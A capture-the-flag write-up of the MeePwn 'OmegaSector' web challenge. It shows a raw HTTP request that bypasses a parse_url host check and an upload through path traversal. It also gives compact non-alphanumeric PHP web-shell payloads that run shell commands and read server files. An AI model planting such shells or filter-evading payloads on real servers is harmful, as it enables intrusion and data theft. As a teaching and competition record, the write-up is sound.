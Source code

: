 # OmegaSector &ndash; write-up by @terjanq

## Task Description
>Wtf !? I just want to go to OmegaSector but there is weird authentication here, please help me  
>http://138.68.228.12/

## Part1
The very first part of the challenge is about getting the source code of the [index.php] file. In the source of the website, we could find the URL `http://138.68.228.12/?is_debug=1` which exactly does that. 

The next step is to bypass the following countermeasures to gain the full control of the `$whoareyou` variable.

```php
$remote=$_SERVER['REQUEST_URI']; 

if(strpos(urldecode($remote),'..')) 
    mapl_die(); 

if(!parse_url($remote, PHP_URL_HOST))
    $remote='http://'.$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI']; 

$whoareyou=parse_url($remote, PHP_URL_HOST); 
```

If we make any request by the web browser the `$_SERVER['REQUEST_URI']` variable will start with `/?` or `/index.php?` or `/index.php/` and so on. But there is always `slash` character at the beginning. So it's a tough task to get the custom hostname in here.  
At this stage, we can conclude that it is something with `raw HTTP requests`.  

Imagine the request below:
```
GET ..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40 HTTP/1.1
Host: 138.68.228.12
Connection: close

```

In this payload I managed to cheat the `apache2`, the `parse_url` and the `strpos(urldecode($remote),'..')` at one shoot!

`Apache2` will move into a not existing directory `..@alien.somewhere.meepwn.team` then will go one level down `../` back to the `root` folder. It is important that there are two `slashes` otherwise it won't work. I suppose it is because it just cleverly removes `..@alien.somewhere.meepwn.team/../` from the file path. 

My first try after I discovered that we could travel over directories like that was to create `..://alien.somewhere.meepwn.team/../..//index.php` request so the `parse_url` evaluates to:

```
Array
(
    [scheme] => ..
    [host] => alien.somewhere.meepwn.team
    [path] => /../..//index.php
)
```

but injecting the `:` in the `directory name` caused the `apache2` to crash. Perhaps it is due to another solution which I will link to at the end of the write-up.

The `$_SERVER['REQUEST_URI']` variable has obviously `..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40` value. 

Since `strpos(urldecode($remote),'..')` is `0` it evaluetes to `False` and thus the `mapl` won't `die`.

Also `parse_url($remote, PHP_URL_HOST)` won't return the hostname and the `http://127.0.0.1` will be prepended into `$remote` so the whole variable looks like `http://127.0.1..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40`. 

Now `parse_url` returns

```
Array
(
    [scheme] => http
    [host] => alien.somewhere.meepwn.team
    [user] => 127.0.0.1..
    [path] => /..//index.php
    [query] => alien=%40!%23%24%40!%40%40
)
```

Bingo! We have a complete control over the `$whoareyou` variable.

We pass a few *ifs* 
```
if($whoareyou==="alien.somewhere.meepwn.team")
    ⋮
    if($_GET['alien']==='@!#$@!@@')
        ⋮
        $_SESSION['auth']=hash('sha256', 'alien'.$salt); 
            exit(header( "Location: alien_sector.php" )); 

```

and get redirected to another stage. 

I used this `bash script` in order to get the `PHPSESSID` with `auth` set
```bash
echo -ne 'GET ..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40 HTTP/1.1\r\nHost: 138.68.228.12\r\nConnection: close\r\n\r\n' | nc 138.68.228.12 80
```
There are also similar *ifs* for `omega_sector.php` but actualy it had no any use in this challange. 

## Part2
After having the right `PHPSESSID` in the cookies we get the following form on the `alien_sector.php`:
```xml
<form action="alien_sector.php" method="POST">
<textarea class="shadow" id="main" name="message"></textarea>
<input type='text' name='type' value='alien' hidden />
<button type="submit" id="button"><div class="alien_language">Save</div></button>
</form>
```
If we send a message with `non alphanumeric characters` we see `Saved in alien_message/fc11ce87435398abd6a28dd622639988.alien`. In opposition on the `omega_sector` where we only can use `alphanumeric characters`. We can abuse the `type` attribute and we can send the request `type=/../super_secret_shell.php`.  
The serious restriction was that messages could be at most `40 characters` long.

At first, I thought that it is something like `race condition` that two scripts write into one file at the same time resulting in mixed content but it didn't work.

Then, inspired by some ideas found on the internet I have created the `reverse shell script` using only `non-alpha chars`: 
```php
<?=$_='$<>/'^'{{{{';${$_}[_](${$_}[__]);

// $_= '$<>/' ^ '{{{{' ----> $_ = '_GET'
// ${_GET}[_](${_GET})[__];
// final <?=$_GET[_]($_GET[__])
```

And then after visiting the URL `http://138.68.228.12/alien_message/super_secret_shell.php?_=system&__=rgrep MeePwn /var/www/` we see the flag: **MeePwnCTF{__133-221-333-123-111___}**


## Alternative solution
This is the solution posted by `P4Team`.

```
GET http://human.ludibrium.meepwn.team?human=Yes HTTP/1.0
Host: human.ludibrium.meepwn.team
```

This tricky payload takes an advantage of `default` in `virtual hosts` set to `/var/www/html` so any non-existent domain will point there. Also, it uses the alternative way of making the request using `GET FULL_URL` syntax. 

```php
<?=`/???/??? ../??????.??? > ===`
```

Even more tricky here using only 33 characters... It calls for shell via `` `...` `` syntax and then uses `shell wildcards` so `/???/???` will match `/bin/cat` and `../??????.???` matches `../secret.php`. Finally, it writes the result to `===` file. Amazing.




## Bonus
After the competition me and @Jelle.V.D golfed a little and managed to get much shorter payloads!

- 21 bytes (full shell via `?_=rgrep /var/www MeePwn`)
```php
<?=`{${~"����"}[_]}`;
// echo -ne '<?=`{${~"\xa0\xb8\xba\xab"}[_]}`;'
```
- 19 bytes (`cat` all files from `../`)
```php
<?=`/???/??? ../*`;
```









[index.php]:<./index.php>
